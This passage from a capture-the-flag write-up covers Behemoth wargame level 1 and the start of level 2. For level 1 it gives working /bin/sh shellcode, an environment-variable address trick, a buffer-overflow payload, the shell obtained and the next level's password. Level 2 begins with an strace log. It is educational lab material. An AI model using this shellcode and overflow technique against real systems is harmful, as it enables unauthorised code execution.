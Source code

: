 Damn it, it doesn't work, let's try passing our shellcode through an environment variable then.

```
behemoth1@behemoth:/behemoth$ export EGG=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

Let's also use this source code to find out its address:
```
behemoth1@behemoth:/tmp$ cat getenv.c
#include <stdio.h>
#include <stdlib.h>

int main ()
{
        printf("EGG : %p\n", getenv("EGG"));
        return 0;
}

behemoth1@behemoth:/tmp$ gcc -m32 getenv.c -o getenv
```

After compiling it, execute it and use that address in our payload.

```
behemoth1@behemoth:/behemoth$ /tmp/getenv
EGG : 0xffffdea2
behemoth1@behemoth:/behemoth$ python -c 'print "a" * 71 + "\xa2\xde\xff\xff"' > /tmp/payload
behemoth1@behemoth:/behemoth$ cat /tmp/payload - | ./behemoth1
Password: Authentication failure.
Sorry.
ls
behemoth0  behemoth2  behemoth4  behemoth6         behemoth7
behemoth1  behemoth3  behemoth5  behemoth6_reader
whoami
behemoth2
cat /etc/behemoth_pass/behemoth2
eimahquuof
```

BOOM!

## Level 2 ##
If we tried to run the binary, it would just hang, but it gives us an interesting message
```
behemoth2@behemoth:/behemoth$ ./behemoth2
touch: cannot touch '17849': Permission denied
whoami
wtf
^C
```
Let's trace the system calls
```
behemoth2@behemoth:/behemoth$ strace ./behemoth2
execve("./behemoth2", ["./behemoth2"], [/* 18 vars */]) = 0
strace: [ Process PID=17942 runs in 32 bit mode. ]
brk(NULL)                               = 0x804b000
fcntl64(0, F_GETFD)                     = 0
fcntl64(1, F_GETFD)                     = 0
fcntl64(2, F_GETFD)                     = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7fd2000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=36357, ...}) = 0
mmap2(NULL, 36357, PROT_READ, MAP_PRIVATE, 3, 0) = 0xf7fc9000
```
